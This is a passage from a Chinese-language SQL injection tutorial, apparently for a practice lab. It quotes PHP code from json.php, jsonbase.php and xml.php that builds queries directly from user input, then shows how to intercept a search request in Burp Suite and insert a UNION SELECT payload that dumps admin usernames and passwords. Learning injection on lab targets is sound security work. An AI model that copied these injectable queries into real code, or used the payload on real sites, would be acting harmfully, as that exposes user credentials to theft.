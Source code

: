 ### 1. json.php 文件中的注入点

```php
// 查询具体的新闻内容
$sql = "SELECT * FROM news WHERE id = $id";

// 关键字搜索
$sql .= " WHERE title LIKE '%$keyword%' OR content LIKE '%$keyword%'";
```

### 2. jsonbase.php 文件中的注入点

```php
// keyword参数的SQL注入漏洞
if (!empty($keyword)) {
    $sql .= " WHERE title LIKE '%$keyword%' OR content LIKE '%$keyword%'";
}
```

### 3. xml.php 文件中的注入点

```php
// XML注入
$sql = "SELECT * FROM news WHERE id = $id";

// 关键字搜索
$sql .= " WHERE title LIKE '$keyword' OR content LIKE '$keyword'";
```

## 使用Burp Suite进行SQL注入攻击

根据具体文件的特点，我们可以分别构造不同的攻击payload：

### 1. 针对json.php的SQL注入

1. 访问`json.html`页面
2. 使用Burp Suite拦截提交搜索表单时的请求
3. 修改JSON数据如下：

**原始JSON**:
```json
{
  "id": 0,
  "keyword": "test"
}
```

**注入Payload**:
```json
{
  "id": 0,
  "keyword": "' UNION SELECT 1,password,username,created_at FROM admin WHERE id=1-- -"
}
```
